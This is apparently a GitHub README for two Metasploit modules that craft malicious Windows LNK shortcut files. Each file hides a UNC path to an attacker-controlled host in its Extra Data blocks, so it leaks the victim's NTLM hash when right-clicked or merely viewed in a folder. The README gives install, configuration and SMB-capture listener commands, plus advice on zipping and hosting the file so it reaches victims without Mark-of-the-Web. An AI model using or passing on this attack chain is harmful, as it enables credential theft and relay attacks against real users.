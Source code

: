 # DataBlockNTLMLeak
Here is my collection of `Extra Data` structure of Windows Shell Link (LNK) NTLM Leak Proof of Concept written in Metasploit (auxiliary module). I have few more to release but lets see if I'm not lazy :)

---

# 1. EnvironmentVariableDataBlock Leak - Metasploit Auxiliary Module
Right-Click Leak - Windows LNK File Special UNC Path NTLM Leak

### Overview
This module creates a Windows shortcut (LNK) file that specifies a special UNC path that can trigger an authentication attempt to a remote server. This can be used to harvest NTLM authentication credentials. When a victim right-clicks the LNK file, it will attempt to connect to the the specified UNC path, resulting in an SMB connection that can be captured to harvest credentials or perform relay attacks.

### 

1. Place the `EnvironmentVariableDataBlock_leak.rb` file in the Metasploit modules directory:
   ```
   cp EnvironmentVariableDataBlock_leak.rb /usr/share/metasploit-framework/modules/auxiliary/fileformat
   ```

2. Start Metasploit:
   ```
   msfconsole
   ```

3. Load the module:
   ```
   use auxiliary/windows/EnvironmentVariableDataBlock_leak
   ```

4. Configure the module:
   ```
   set FILENAME poc.lnk
   set UNC_PATH \\\\your_ip\\share
   set DESCRIPTION "Testing Purposes"
   ```

5. Execute the module:
   ```
   run
   ```

6. Set up a listener to capture authentication:
   ```
   use auxiliary/server/capture/smb
   run
   ```

7. MOTW? 
   ```
   1. ZIP the LNK file and host somewhere
   2. Download the file from victim side and extract the ZIP (WinRAR / 7-Zip) file. At this point, you don't have to worry about MOTW :-)
   3. Right-Click on the LNK file and it should send the NTLM hash to your MSF SMB Listener
   ```

## Options
- `FILENAME`: The name of the malicious LNK file to create
- `UNC_PATH`: The UNC path that will trigger the authentication attempt (e.g., \\\\attacker_ip\\share)
- `DESCRIPTION`: The description that will appear when hovering over the shortcut

--- 

# 2. IconEnvironmentDataBlock - Metasploit Auxiliary Module
IconEnvironmentDataBlock - Windows LNK File Special UNC Path NTLM Leak

## Overview

This module creates a malicious Windows shortcut (LNK) file that specifies a special UNC path in IconEnvironmentDataBlock that can trigger an authentication attempt to a remote server. This can be used to harvest NTLM authentication credentials. When a victim browse to the location of the LNK file, it will attempt to connect to the the specified UNC path, resulting in an SMB connection that can be captured to harvest credentials or perform relay attacks.

## Usage

1. Place the `IconEnvironmentDataBlock_ntlm.rb` file in the Metasploit modules directory:
   ```
   cp IconEnvironmentDataBlock_ntlm.rb /usr/share/metasploit-framework/modules/auxiliary/fileformat
   ```

2. Start Metasploit:
   ```
   msfconsole
   ```

3. Load the module:
   ```
   use auxiliary/fileformat/IconEnvironmentDataBlock_ntlm
   ```

4. Configure the module:
   ```
   set FILENAME poc.lnk
   set UNC_PATH \\\\your_ip\\share
   set DESCRIPTION "Testing Purposes"
   set ICON_PATH a
   ```

5. Run the module to generate the LNK:
   ```
   run
   ```

6. Set up a listener to capture authentication:
   ```
   use auxiliary/server/capture/smb
   run
   ```

7. MOTW? 
   ```
   1. This is your call. Easiest way is to ZIP the LNK file and host somewhere (e.g. web server, etc.)
   2. Download from the client-side and extract the ZIP file. At this point, you don't have to worry about MOTW :-)
   3. Extract the ZIP file to any folder (e.g. Desktop) and observe the NTLMv2 hash send to your MSF SMB listener
   4. If you browse / refresh the folder that has the LNK store, it will send the NTLM hash to the server.
   5. If you copy & paste / delete / drag & drop (e.g. from VM to Host or from Host to VM) of the LNK, it will send the NTLM hash to the server.
   ```

## Options
- `FILENAME`: The name of the malicious LNK file to create
- `UNC_PATH`: The UNC path that will trigger the authentication attempt (e.g., \\\\attacker_ip\\share)
- `DESCRIPTION`: The description that will appear when hovering over the shortcut
- `ICON_PATH`: The path to your own icon. Does not necessary to point to actual ICON file (e.g. a)

